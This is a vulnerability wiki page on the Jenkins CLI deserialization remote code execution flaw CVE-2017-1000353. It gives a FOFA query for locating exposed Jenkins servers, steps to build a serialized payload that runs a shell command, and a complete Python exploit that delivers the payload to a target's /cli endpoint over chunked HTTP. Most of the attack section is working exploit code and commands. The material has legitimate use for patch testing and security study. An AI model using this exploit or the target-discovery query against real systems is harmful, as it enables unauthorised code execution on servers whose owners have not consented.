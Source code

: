 ```yaml
---
Title: Jenkins CI Remote Code Execution Vulnerability CVE-2017-1000353
---
```


# Jenkins CI Remote Code Execution Vulnerability CVE-2017-1000353

## Vulnerability Description

Attackers can transfer serialized Java SignedObject objects to the remote processing-based Jenkins CLI, which will eventually lead to deserialization, thereby bypassing the existing blacklist-based protection mechanism. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Jenkins</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629513094370-fcc9d9e0-e71c-4e95-a197-b24f0bb85f2f-20220308154434574.png)


</a-alert>

<br/>

Generate `jenkins_poc.ser`

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629514273598-a151eaba-8a4e-4070-b274-caaedef61293.png)



Execute using Python script command

`https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py`

```python
python3 jenkins.py http://xxx.xxx.xxx.xxx:8080 jenkins_poc.ser
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629514591067-fd7562de-73c4-4600-b071-459df7843238.png)

Successfully generated

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629514953277-01a113d9-3d07-4656-921b-0e80bcd712b9.png)

## Vulnerability POC

```python
import urllib
import sys
import requests
import uuid
import threading
import time
import gzip
import urllib3
import zlib

proxies = {
# 'http': 'http://127.0.0.1:8085',
# 'https': 'http://127.0.0.1:8090',
}

URL = '%s/cli' % sys.argv[1].rstrip('/')

PREAMLE = b'<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='
PROTO = b'\x00\x00\x00\x00'

with open(sys.argv[2], "rb") as f:
    FILE_SER = f.read()

def download(url, session):

    headers = {'Side' : 'download'}
    headers['Content-type'] = 'application/x-www-form-urlencoded'
    headers['Session'] = session
    headers['Transfer-Encoding'] = 'chunked'
    r = requests.post(url, data=null_payload(), headers=headers, proxies=proxies, stream=True, verify=False)
    print(r.content)


def upload(url, session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding'] = None
    r = requests.post(url,data=data,headers=headers,proxies=proxies, verify=False)


def upload_chunked(url,session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding']= None
    headers['Transfer-Encoding'] = 'chunked'
    headers['Cache-Control'] = 'no-cache'

    r = requests.post(url, headers=headers, data=create_payload_chunked(), proxies=proxies, verify=False)


def null_payload():
    yield b" "

def create_payload():
    payload = PREAMLE + PROTO + FILE_SER

    return payload

def create_payload_chunked():
    yield PREAMLE
    yield PROTO
    yield FILE_SER

def main():
    print("start")

    session = str(uuid.uuid4())

    t = threading.Thread(target=download, args=(URL, session))
    t.start()
    
    time.sleep(2)
    print("pwn")
    #upload(URL, session, create_payload())

    upload_chunked(URL, session, "asdf")

if __name__ == "__main__":
    main()

```
